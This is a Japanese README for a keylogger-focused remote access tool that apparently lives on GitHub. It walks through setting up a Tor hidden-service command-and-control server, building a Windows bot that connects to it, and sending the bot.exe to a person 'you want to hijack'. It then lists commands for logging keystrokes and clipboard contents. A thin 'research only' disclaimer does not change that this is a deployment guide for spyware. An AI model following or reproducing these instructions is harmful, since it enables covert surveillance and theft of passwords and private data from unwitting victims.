 # yuki
keylogger搭載してるというか、それに特化したハッキングツール。<br>

ちなみに、カレントディレクトリの表示は動作確認用<br>

**バグあったらware255のTwitterかDiscordのDMで教えてね。**

## 動作環境
### C&C
* Linux (Debian)
### Bot
* Windows 10

## 注意
<b>研究目的以外での使用をおやめください。</b> <br>
研究目的以外で使用した場合責任を負いません。自己責任。<br><br>
使用するとき、仮想マシンが必須になるかもしれません。<br>
あと、多少のバグは許して...

## コンパイル
WindowsとLinuxと同時に使って環境構築をしていきます。<br>
まずは、Linuxから設定をしていきます。<br>

Torをインストール
```
$ sudo apt install tor
```
インストールが終わったらtorrcを編集します。
```
$ sudo vi /etc/tor/torrc
```
ソースコードの関係上以下の通りに書き換えてください。
```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```
ここでほぼほぼLinuxでの設定は完了します。<br>
では、以下のコマンドを実行しちゃって終わらせちゃいましょう。
```
$ bash build.sh
```
ちなみに、onionサイトのドメイン名を確認するには
```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

<br>
次は、Windowsにうつって環境構築していきます。<br>
ぶっちゃけて言うとクロスコンパイラ使えば問題ないと思いますが、めいんどいので今回は解説しません。<br>

まず、botというディレクトリのなかのmain.cppを開きます。<br>

そしたら、xxxxxxxxxxxxxxxxxxxxxxxxxxx.onionをcncサーバのドメイン名に書き換えてください。
```c
#define cnc_onion_server    "xxxxxxxxxxxxxxxxxxxxxxxxxxx.onion"
```
終わったらbuild.batを実行してコンパイル終了です。

## 使い方
必ず最初にLinuxでcnc.outを実行してください。
```
$ ./cnc.out
```
そしたら、コンパイルしたbot.exeを乗っ取りたい相手に送ってください。<br>
<br>
乗っ取りに成功しましたら`help`をつかってどのコマンドが使えるか確認することができます。
```
root@cnc:~$ help
Command List
       pwd        - view current directory
       keylogger  - get the characters you entered
       cliplogger - clipboard monitoring
       all_log    - monitor almost all logs
```
pwd以外のコマンドを使った場合、Ctrl+Cで閉じないと終わる方法がありませんので注意。<br>
(あとで、C&Cサーバの起動に時間がかかることには目を瞑って...)

## 参考資料
[RAT](https://github.com/ware255/RAT) <br>
[ Working with Tor (C/C++) ](https://gist.github.com/anhldbk/f62fbe5e5a0e48740c6959e3e0907c81) <br>
[ Simple keylogger in C++ ](https://gist.github.com/cdohara/99f3ac257b6f98d723818aedd1c39a4e)
